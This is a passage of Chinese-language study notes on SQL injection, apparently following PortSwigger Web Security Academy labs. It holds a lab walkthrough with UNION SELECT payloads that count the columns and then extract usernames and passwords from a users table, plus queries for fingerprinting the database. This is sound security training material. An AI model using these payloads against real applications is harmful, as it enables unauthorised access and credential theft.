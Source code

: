 這使用了雙管道序列 `||`，它是 Oracle 上的字串串接運算子。注入的查詢語句將 `username` 和 `password` 欄位的值串接在一起，並用 `~` 字元分隔。

查詢語句的結果包含所有使用者名稱和密碼，例如：

```raw
... 
administrator~s3cure 
wiener~peter 
carlos~montoya 
...
```

不同的資料庫使用不同的語法來執行字串串接。更多詳細資訊請參閱 [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)。

::: tip **Lab: [SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)**
1. 判斷回傳的欄位數量，以及哪個欄位可回傳字串型態
   ```SQL
   /filter?category=Pets' UNION SELECT NULL--
   /filter?category=Pets' UNION SELECT NULL,NULL--
   ```

   ```SQL
   /filter?category=Pets' UNION SELECT 'a',NULL--
   /filter?category=Pets' UNION SELECT NULL,'a'--
   ```
2. 確認為回傳 2 個欄位，且僅有第 2 個欄位可回傳字串型態
3. 發送請求取得帳號密碼：`/filter?category=Pets' UNION SELECT NULL,username|| '~' ||password FROM users--`
4. 使用 `administrator` 使用者的帳號密碼登入後通關
:::

## 檢查資料庫

SQL 語言的一些核心功能在熱門資料庫平台上以相同方式實作，因此許多檢測和利用 SQL 注入漏洞的方法在不同類型的資料庫上運作方式相同。

然而，常見資料庫之間也存在許多差異。這意味著一些檢測和利用 SQL 注入的技術在不同平台上的運作方式會有所不同。例如：

* 字串串接的語法。
* 註解。
* 批次（或堆疊）查詢語句。
* 平台特定的 API。
* 錯誤訊息。

::: info Read more
* [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
:::

在您識別出 SQL 注入漏洞後，取得資料庫相關資訊通常很有用。這些資訊可以幫助您利用該漏洞。

您可以查詢資料庫的版本詳細資訊。不同的方法適用於不同的資料庫類型。這意味著如果您發現某個特定方法有效，就可以推斷出資料庫類型。例如，在 Oracle 上您可以執行：`SELECT * FROM v$version`

您也可以識別存在哪些資料庫資料表，以及它們包含的欄位。例如，在大多數資料庫上您可以執行以下查詢語句來列出資料表：`SELECT * FROM information_schema.tables`

要利用 SQL 注入漏洞，通常需要找出關於資料庫的資訊。這包括：

